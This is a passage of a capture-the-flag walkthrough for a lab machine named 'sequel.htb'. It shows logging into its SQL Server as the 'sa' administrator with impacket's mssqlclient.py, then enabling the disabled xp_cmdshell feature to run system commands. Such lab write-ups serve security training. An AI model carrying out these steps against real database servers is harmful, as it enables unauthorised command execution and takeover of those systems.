 <br />

We have valid credentials for the `sa` account! (SQL Server Administrator)

We can log into the `MSSQL` server using `mssqlclient.py`:

<br />

```bash
❯ mssqlclient.py sequel.htb/sa@10.10.11.51
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

<br />

## xp_cmdshell:

<br />

At this point, we can take advantage of a powerful `MSSQL` feature: `xp_cmdshell`

It allows us to execute arbitrary system commands within `SQL Server`.

However, if we try to run a command:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell whoami
[-] ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

<br />

Error! The `xp_cmdshell` utility is disabled.

But since we're authenticated as `sa`, we can easily enable it:

<br />

```bash
SQL (sa  dbo@master)> enable_xp_cmdshell
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

